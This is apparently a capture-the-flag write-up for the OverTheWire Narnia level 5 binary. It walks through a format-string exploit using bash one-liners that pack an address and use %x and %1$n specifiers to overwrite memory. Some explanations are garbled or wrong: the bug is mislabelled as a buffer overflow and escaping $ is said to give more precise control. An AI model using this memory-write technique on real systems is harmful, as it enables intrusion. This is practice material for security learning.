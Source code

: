 <img src="./img/Screenshot 2024-10-13 110830.png"></img>
After connecting, change to the Narnia directory and check the contents of `narnia5.c`:
```bash
cd /narnia cat narnia5.c
```

Next, test the buffer overflow by passing a sequence of bytes:
```bash
./narnia5 $(echo -e "\x41\x41\x41\x41")
```
Then, attempt to exploit the buffer overflow with the following commands:
you can attempt to exploit the buffer overflow with the following commands:
```bash
./narnia5 $(echo -e "\xb0\xd3\xff\xff")%n
```
This runs `narnia5` with the payload `\xb0\xd3\xff\xff` followed by `%n`, which writes the number of bytes output so far to a specified memory address.
```bash
./narnia5 $(echo -e "\xb0\xd3\xff\xff")%20x
```
This command also uses the same payload but adds `%20x`, which reads and displays a value from memory in hexadecimal format.
```bash
./narnia5 $(echo -e "\xb0\xd3\xff\xff")%20x%1$n
```
Here, `%1$n` is added. It combines reading a memory value with writing the byte count to a specified address, potentially overwriting a critical location.
```bash
./narnia5 $(echo -e "\xb0\xd3\xff\xff")%20x%1\$n
```
This command uses `%1\$n` instead of `%1$n`, allowing more precise control over memory manipulation.
```bash
./narnia5 $(echo -e "\xb0\xd3\xff\xff")%496x%1\$n
```